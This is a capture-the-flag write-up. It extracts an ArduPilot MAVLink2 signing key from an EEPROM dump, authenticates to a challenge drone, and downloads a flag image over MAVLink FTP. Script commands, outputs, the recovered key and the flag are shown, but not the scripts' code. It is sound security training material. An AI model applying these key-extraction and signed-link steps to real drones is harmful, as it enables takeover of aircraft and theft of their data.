

# One to Rule Them All

| | |
|---|---|
| Category | Communication & RF |
| Points | 499 |
| Solves | 32 |

## Description

Prismantir recovered a single enemy drone running **ArduPilot**. Although only one flight controller was captured, the swarm shares the same MAVLink2 signing key. Recover the signing key from the EEPROM dump, authenticate to the drone over MAVLink2, then use MAVLink FTP to retrieve the hidden image containing the flag.

**Flag format**

```text
starpwn{[A-Za-z_]+}
```

## Files

- `eeprom.bin` – 16 KiB ArduPilot EEPROM
- `GCS_Signing.cpp` – SigningKey structure
- `GCS_FTP.cpp/.h` – MAVLink FTP implementation
- `analyse_eeprom.py`
- `analyse_signing.py`
- `verify_key.py`
- `heartbeat.py`
- `find_image.py`
- `downloader.py`

---

# Solution

## 1. Identify the EEPROM

The dump begins with the `PA` magic used by ArduPilot AP_Param storage.

```bash
python3 analyse_eeprom.py eeprom.bin
```

Expected:

```text
ArduPilot EEPROM Analysis
-------------------------

Size : 16384 bytes
Magic: PA
Revision byte : 6

Non-zero regions
----------------
0x0000 - 0x0002       3 bytes   entropy=1.58
0x0005 - 0x0005       1 bytes   entropy=0.00
....
0x1F90 - 0x1F91       2 bytes   entropy=1.00
0x1F93 - 0x1FAF      29 bytes   entropy=4.86

Searching for SigningKey magic...

============================================================
Possible SigningKeyCommu
============================================================
Offset     : 0x1F80
Magic      : 0x3852FCD1
Pad        : 0x00000000
Timestamp  : 36527303400913
Entropy    : 5.000 bits/byte
Key        : d4ee003d187614d9ffa24d20f58b448551c2cdc1e54cf42fc00bb86182249126

00001F80  D1 FC 52 38 00 00 00 00 D1 9D F1 AC 38 21 00 00 ..R8........8!..
00001F90  D4 EE 00 3D 18 76 14 D9 FF A2 4D 20 F5 8B 44 85 ...=.v....M ..D.
00001FA0  51 C2 CD C1 E5 4C F4 2F C0 0B B8 61 82 24 91 26 Q....L./...a.$.&
```

The script also reports populated EEPROM regions and searches for the signing-key magic.



---

## 2. Recover the MAVLink2 signing key

`GCS_Signing.cpp` defines the persistent signing structure:
(https://github.com/ArduPilot/ardupilot/blob/master/libraries/GCS_MAVLink/GCS_Signing.cpp)

```cpp
struct SigningKey {
    uint32_t magic;
    uint64_t timestamp;
    uint8_t  secret_key[32];
};
```

The structure is identified using the magic value `0x3852FCD1`.

```bash
python3 analyse_signing.py eeprom.bin GCS_Signing.cpp
```

Expected:

```text
Signing structure
-----------------
MAGIC        : 0x3852FCD1
Struct Size  : 48
Key Length   : 32

============================================================
Offset     : 0x1F80
Magic      : 0x3852FCD1
Timestamp  : 36527303400913
Key        : d4ee003d187614d9ffa24d20f58b448551c2cdc1e54cf42fc00bb86182249126
```

Recovered key:

```text
d4ee003d187614d9ffa24d20f58b448551c2cdc1e54cf42fc00bb86182249126
```

---

## 3. Verify the key

Before interacting with the drone, verify that the recovered key correctly authenticates signed MAVLink2 traffic.

```bash
python3 verify_key.py HOST PORT <KEYHEX>
```

Expected:

```text
============================================================
MAVLink2 Signed Packet
============================================================
Payload Length : 9
Sequence       : 244
System ID      : 2
Component ID   : 1
Message ID     : 0
CRC            : 0xF25D

Link ID        : 2
Timestamp      : 36736923561411

Received Sig   : 1d63c0d9ebed
Computed Sig   : 1d63c0d9ebed

[+] KEY VERIFIED
============================================================
```

---

## 4. Enumerate the telemetry service

A simple heartbeat confirms that the connection and signing work correctly.

```bash
python3 heartbeat.py HOST PORT <KEYHEX>
```

Expected:

```text
[*] Connecting to tcp:0.cloud.chals.io:15174
[*] Installing signing key
[*] Waiting for incoming telemetry...
RX: sys=  5 comp=  1 HEARTBEAT
RX: sys=  3 comp=  1 HEARTBEAT
RX: sys=  1 comp=  1 HEARTBEAT
RX: sys=  2 comp=  1 HEARTBEAT
RX: sys=  4 comp=  1 HEARTBEAT
RX: sys=  5 comp=  1 HEARTBEAT
RX: sys=  3 comp=  1 HEARTBEAT
RX: sys=  1 comp=  1 HEARTBEAT
RX: sys=  2 comp=  1 HEARTBEAT
RX: sys=  4 comp=  1 HEARTBEAT
RX: sys=  5 comp=  1 HEARTBEAT
RX: sys=  3 comp=  1 HEARTBEAT
RX: sys=  1 comp=  1 HEARTBEAT
RX: sys=  2 comp=  1 HEARTBEAT

[*] Sending HEARTBEAT
[+] HEARTBEAT transmitted

[*] Waiting for replies...
RX: sys=  4 comp=  1 HEARTBEAT
RX: sys=  5 comp=  1 HEARTBEAT
RX: sys=  3 comp=  1 HEARTBEAT
RX: sys=255 comp=230 TERRAIN_DATA
RX: sys=  1 comp=  1 HEARTBEAT
RX: sys=255 comp=230 HEARTBEAT
RX: sys=255 comp=230 TERRAIN_DATA
RX: sys=  1 comp=  1 MISSION_ITEM_REACHED
RX: sys=  1 comp=  1 STATUSTEXT
RX: sys=  1 comp=  1 STATUSTEXT
RX: sys=255 comp=230 TERRAIN_DATA
RX: sys=  4 comp=  1 HEARTBEAT
RX: sys=  2 comp=  1 HEARTBEAT
...
```

---

## 5. Inspect the filesystem with MAVLink FTP

The drone exposes the ArduPilot MAVLink FTP service (`FILE_TRANSFER_PROTOCOL`).

List the filesystem:

```bash
python3 find_image.py
```

Result:

```text
[*] Connecting...

==========
DIR: /
DIR: /
DIR: /
DIR: /
DIR: /

==========
DIR: /DCIM
[FILE] /DCIM/flag.jpg (40536 bytes)

########################################
FOUND IMAGE: /DCIM/flag.jpg
########################################

==========
DIR: /terrain
[FILE] /terrain/N36W116.DAT (401408 bytes)

==========
DIR: /@ROMFS
[FILE] /@ROMFS/locations.txt (4425 bytes)
DIR: /@ROMFS

==========
DIR: /@SYS
[FILE] /@SYS/threads.txt (100000 bytes)
[FILE] /@SYS/tasks.txt (100000 bytes)
[FILE] /@SYS/dma.txt (100000 bytes)
[FILE] /@SYS/memory.txt (100000 bytes)
[FILE] /@SYS/uarts.txt (100000 bytes)
[FILE] /@SYS/timers.txt (100000 bytes)
[FILE] /@SYS/can_log.txt (100000 bytes)
[FILE] /@SYS/can0_stats.txt (100000 bytes)
[FILE] /@SYS/can1_stats.txt (100000 bytes)
[FILE] /@SYS/crash_dump.bin (100000 bytes)
[FILE] /@SYS/storage.bin (16384 bytes)

==========
DIR: /@ROMFS/models
[FILE] /@ROMFS/models/Callisto.json (1460 bytes)
[FILE] /@ROMFS/models/freestyle.json (1395 bytes)
[FILE] /@ROMFS/models/plane-3d.parm (874 bytes)
[FILE] /@ROMFS/models/plane.parm (1739 bytes)
[FILE] /@ROMFS/models/xplane_heli.json (1935 bytes)
[FILE] /@ROMFS/models/xplane_plane.json (1905 bytes)
```

---

## 6. Download the flag image

`downloader.py` implements the same packet format used by ArduPilot's `GCS_FTP.cpp`.
(https://github.com/ArduPilot/ardupilot/blob/master/libraries/GCS_MAVLink/GCS_FTP.cpp)

Protocol flow:

```text
ResetSessions
      ↓
OpenFileRO("DCIM/flag.jpg")
      ↓
ReadFile(offset=0, size=239)
      ↓
ReadFile(...)
      ↓
EOF
      ↓
TerminateSession
```

Run:

```bash
python3 downloader.py
```

Output:

```text
[+] File size : 40536 bytes
...
[+] Saved 40536 bytes to flag.jpg
```

`N36W116.DAT` was identified as a standard ArduPilot terrain cache tile (36°N, 116°W) and contained no challenge-specific data.

During filesystem enumeration, the virtual `@SYS` directory exposed several diagnostic entries, including `threads.txt`, `memory.txt`, and `crash_dump.bin`. Although these entries were listed successfully, every `READ` request returned FTP error `0x0A`, indicating that the system diagnostics interface was not accessible through the MAVLink FTP implementation used in the challenge.

Finally, `storage.bin` was downloaded from the onboard filesystem and compared with the original `eeprom.bin`. Only nine bytes differed across the entire 16 KiB image, indicating that the runtime storage is almost identical to the original EEPROM contents. No additional secrets or challenge-relevant information were found.

---

## 7. Read the flag

Open `flag.jpg`.


The image contains the sentence:

> **machines never pledged to be allegiant**

Therefore the flag is

```text
starpwn{machines_never_pledged_to_be_allegiant}
```

---

# Attack Summary

```text
eeprom.bin
    │
    ├── Parse AP_Param EEPROM
    │
    ├── Locate SigningKey (0x3852FCD1)
    │
    ├── Extract 32-byte MAVLink2 signing key
    │
    ├── Verify with live signed telemetry
    │
    ├── Authenticate using MAVLink2 signing
    │
    ├── MAVLink FTP
    │      ├── LIST
    │      ├── OpenFileRO
    │      ├── ReadFile
    │      └── TerminateSession
    │
    └── Download DCIM/flag.jpg
            │
            └── Read flag
```
